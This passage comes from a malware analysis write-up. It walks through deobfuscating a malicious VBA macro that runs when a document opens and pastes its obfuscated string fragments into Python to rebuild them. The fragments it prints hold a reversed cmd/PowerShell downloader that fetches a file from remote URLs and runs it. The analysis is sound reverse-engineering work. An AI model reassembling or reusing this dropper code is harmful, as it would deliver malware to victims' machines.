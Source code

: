 
    Function FScXPdzAh()
    On Error Resume Next
    XmdrRVAlf = "^" + "f %R" + "=" + "=" + "^0 " + Format(Chr(0 + 1 + 2 + 5 + 91)) + "a" + "^l^l %^" + "Z^" + "Y:*^ZY^"
    ZsfrSsv = "!" + "=%" + Format(Chr(0 + 0 + 0 + 1 + 33)) + "  " + ""
    FScXPdzAh = XmdrRVAlf + ZsfrSsv
    End Function



#### Deobfuscating VBA

The function that's run on open simply appends the output of the other
two, and passes that to a shell. The other two are just doing lots of
string building. Since I don't have a VBA emulator handy, but I do have
python, I'll look at the code with an eye towards how much would have to
change to get it to run as python.

Short answer, not much. There are two functions that python will choke
on: `Format` and `Chr`. But `Format` called with only one parameters in
VBA just returns that parameter. And `Chr` is the same as `chr` in
python.

So I popped open a python shell. First, I'll define the functions I need
(easier than editing them out of the text). Then I'll paste in the
string definitions from the VBA, doing the Document_Open one last, since
it relies on the other two. For those unfamiliar with python's lambda
format, `lambda [var] : [return value]` simply defines a function that
takes one parameter and returns it.



    >>> # Create Functions to emulate VBA
    ...
    >>> Format = lambda x : x
    >>> Chr = chr
    >>>
    >>> # Strings from FPwimk function
    ...
    >>> USojhESRic = Format(Chr(0 + 1 + 2 + 5 + 91)) + "md " + "/V/" + Format(Chr(0 + 1 + 1 + 3 + 62)) + Format(Chr(0 + 0 + 0 + 1 + 33)) + "s" + "^e^t ^" + "K1" + "=" + "^ ^    " + "^ ^ ^" + "    "
    >>> Tqssc = "   " + " " + "^  }^" + "}^{^h" + Format(Chr(0 + 1 + 2 + 5 + 91)) + "^t^a" + Format(Chr(0 + 1 + 2 + 5 + 91)) + "};ka^e" + "r^b"
    >>> oOsKiVzW = ";" + "z^i^" + "A$ m" + "etI-e" + "^k" + "^" + "o" + "v" + "n" + "I;"
    >>> YjmhqPb = ")" + "^zi" + "^A^$^" + " " + "^,dq" + "^f$" + "(^"
    >>> krszIdntsUo = "e^li^F^" + "dao^lnw" + "^oD." + Format(Chr(0 + 1 + 2 + 5 + 91)) + "^W" + "V^$" + "{^yrt{)" + "t^" + "I^w^$" + "^" + " ni^ d" + "q^f^$(h" + Format(Chr(0 + 1 + 2 + 5 + 91)) + "a^er" + "o^f"
    >>> DvWCiTuRV = ";^'e^xe" + ".^'" + "^+Kz" + "^j^$+^'" + "\^'+" + Format(Chr(0 + 1 + 2 + 5 + 91)) + "^i" + "l^bu^"
    >>> jIBcBnjZ = "p^:vn^" + "e^$=z^" + "i^A$^;^" + "'^9" + "63^" + "' = ^K" + "z^j^$^" + ";" + ")" + "'^@'(" + "t" + "i^l" + "^pS^.^'"
    >>> KWsLc = "nkt.2" + "a^g" + "r^at^=l" + "?php.t" + "^o^ksn"
    >>> HLFivtYKQ = "a" + "po" + "/TT" + "R/mo" + Format(Chr(0 + 1 + 2 + 5 + 91)) + "^." + "r^j^" + "5om" + "2" + Format(Chr(0 + 1 + 2 + 5 + 91)) + "^s^e"
    >>> wRhwirP = "fd5^9" + "t" + "//:p^t^" + "t^h'=" + "tI^w"
    >>> vcjvLjqHS = "$" + ";^tn^e" + "^il" + Format(Chr(0 + 1 + 1 + 3 + 62)) + "be^" + "W^.^" + "t^eN" + " ^t" + Format(Chr(0 + 1 + 2 + 5 + 91)) + "^ej" + "^bo^" + "-^w^"
    >>> aPaiGjc = "en=" + Format(Chr(0 + 1 + 2 + 5 + 91)) + "W" + "V" + "$^" + " ^lle" + "h^sr" + "^e^w^o" + "^p&&" + "for /^" + "L %R " + "^in (" + "2^6" + "^5^;-^" + "1"
    >>> kBEtovj = ";^0)d" + "^" + "o ^" + "se^t ^Z" + "^Y=" + "!^Z^" + "Y!" + "!^K1:~%" + "R" + ",1!&&i"
    >>> FPwimk = USojhESRic + Tqssc + oOsKiVzW + YjmhqPb + krszIdntsUo + DvWCiTuRV + jIBcBnjZ + KWsLc + HLFivtYKQ + wRhwirP + vcjvLjqHS + aPaiGjc + kBEtovj
    >>>
    >>> # Strings from FScXPdzAh function
    ...